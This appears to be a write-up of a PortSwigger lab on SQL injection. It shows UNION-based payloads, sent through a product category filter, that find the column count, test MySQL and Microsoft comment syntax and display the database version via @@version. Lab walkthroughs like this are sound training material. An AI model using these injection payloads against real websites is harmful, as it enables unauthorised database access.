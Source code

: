 ```yaml
---
title: PSA - SQLi 8 - Querying DB type and version on MySQL and Microsoft
date: 2023-05-16
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

To solve the lab, display the database version string.

## ✅ Solution

> We know it is a MySQL or Microsoft database so we will have to try different comment symbol:
> `--comment` for Microsoft
> `#comment` or `-- comment` for MySQL
> The `#` will be encoded as `%23` and the space `` as `%20`

Find the number of columns while trying different comments:

````text
# Microsoft: --comment
<website>/filter?category=Gifts'UNION SELECT NULL--                 # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL--            # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL--       # error! 
# MySQL: #comment
<website>/filter?category=Gifts'UNION SELECT NULL%23                # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL%23           # works  
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL%23      # error! 
# MySQL: -- comment
<website>/filter?category=Gifts'UNION SELECT NULL--%20              # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL--%20         # works  
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL--%20    # error! 
````

We know 2 columns are returned by the questy. Is one containing string?

````text
<website>/filter?category=Gifts'UNION SELECT 'abc',NULL--%20        # works
````

> To determine the database type and version on MySQL we have to query `@@version`.
> The `@` character is `%40` when URL encoded.

Full payload:

````text
<website>/filter?category=Gifts'+UNION+SELECT+%40%40version,NULL--%20    # works
````

The database type and version are displayed.
